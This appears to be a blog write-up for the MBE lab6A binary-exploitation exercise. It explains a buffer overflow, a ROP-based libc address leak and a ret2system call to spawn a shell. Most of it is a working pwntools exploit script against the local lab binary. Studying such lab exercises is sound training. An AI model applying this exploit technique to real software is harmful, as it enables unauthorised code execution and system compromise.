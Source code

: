 ```yaml
---
layout: post
comments: true
title: MBE-lab6A
---
```




ASLR + NX + PIE + Partial RELRO
make_note() is vulnerable.
Approach: return to plt. However, all the plt addresses are jumped to using edx. like [edx+0x20],[edx+0x3c] etc. So, we need to
load the correct value into edx. ROP for that. Then use write to leak a libc address. Then use offsets to calculate system
and the magic address ( which contains "/bin/sh" string already in the libc).
Then run the vulnerability again (ROP) and then do system().
Coded in python.

```
#!/usr/bin/python
from pwn import *
'''overwrite sfunc with make_note and then call choice 3'''

#offset = 90
name = "A"*31 + "\n"
desc = "B"*90
#sfunc = "C"*4
sfunc = p32(0x565559af)
desc += sfunc

ropchain = "A"*52 #Overflow gets()

# write@plt --> make_note() --> p32(1) --> got.plt --> p32(4)
# got.plt = make_note + 9825

# pop ebx; ret
ropchain += p32(0x56555655)
ropchain += p32(0x56558000)
#ropchain += 

got = 0x565559af + 9817
#got = 0x565559af+4
write1 = 0x56555730
ropchain += p32(write1)
ret = 0x565559af
argument = p32(1)
argument += p32(got)
#argument += p32(got)
argument += p32(4)

ropchain += p32(ret)
ropchain += argument
ropchain += "\n"

desc += "\n"


def get_leak(b):
	word = "0x"
	word += b[6] + b[7]
	word += b[4] + b[5]
	word += b[2] + b[3]
	word += b[0] + b[1]
	print word
	return word

def exploit():
	sh1 = process("./lab6A")
	# raw_input()
	sh1.send("1\n")
	sh1.send(name)
	sh1.send(desc)
	fg = sh1.recv()
	# call make_note now.
	#raw_input()
	sh1.send("3\n")
	a = sh1.recv()
	find1 = "Note About"
	if find1 in a:
		#print a
		raw_input("Press Enter to send ROP Chain!!")
		# send ropchain now.
		sh1.send(ropchain)
		#sh1.interactive()
		b = sh1.recvuntil("Make")
		b = b.strip("Make")
		b = b.encode("hex")
		leak = get_leak(b)
		leak = int(leak,16)
		system_addr = leak - 1782112
		sh_address = system_addr + 1182347
		#print leak

		raw_input("Enter to start attack phase 2")
		ropchain2 = "A"*52
		ropchain2 += p32(system_addr)
		ropchain2 += "DUMY"
		ropchain2 += p32(sh_address)
		ropchain2 += "\n"
		sh1.send(ropchain2)
		sh1.interactive()
	sh1.close()

i = 0
while True:
	try:
		exploit()
	except:
		i += 1
print "Try %d" %i
```
